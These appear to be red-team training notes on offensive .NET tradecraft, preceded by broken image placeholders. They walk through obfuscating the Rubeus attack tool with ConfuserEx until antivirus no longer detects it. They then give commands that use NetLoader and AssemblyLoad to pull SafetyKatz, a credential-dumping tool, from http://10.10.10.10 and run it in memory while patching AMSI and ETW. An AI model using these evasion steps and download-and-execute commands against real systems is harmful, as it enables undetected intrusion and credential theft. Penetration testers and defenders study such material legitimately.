








# Offensive .NET - TradeCraft - AV Bypass Obfuscation

1. Check with ThreatCheck
```powershell
C:\> Threatcheck.exe -f Rubeus.exe
```



2. Now we will use ConfuserEx (https://github.com/mkaring/ConfuserEx) to obfuscate the binary
Launch ConfuserEx
+ In Project tab select the Base Directory where the binary file is located.



+ In Project tab Select the Binary File that we want to obfuscate.
+ In Settings tab add the rules.
+ In Settings tab edit the rule and select the preset as `Normal`.



+ In Protect tab click on the protect button.



+ Analyzing using ThreatCheck




+ Rechecking on Antiscan.me



+ Obfuscated Rubeus.exe



+ Original Rubeus.exe



---

# Offensive .NET - Tradecraft - Payload Delivery

+ We can use NetLoader (https://github.com/Flangvik/NetLoader) to deliver our binary payloads. 
+ It can be used to load binary from filepath or URL and patch AMSI & ETW while executing. 
```powershell
C:\Users\Public\Loader.exe -path http://10.10.10.10/SafetyKatz.exe 
```

+ We also have AssemblyLoad.exe that can be used to load the Netloader in-memory from a URL which then loads a binary from a filepath or URL. 
```powershell
C:\Users\Public\AssemblyLoad.exe http://10.10.10.10/Loader.exe -path http://10.10.10.10/SafetyKatz.exe
```

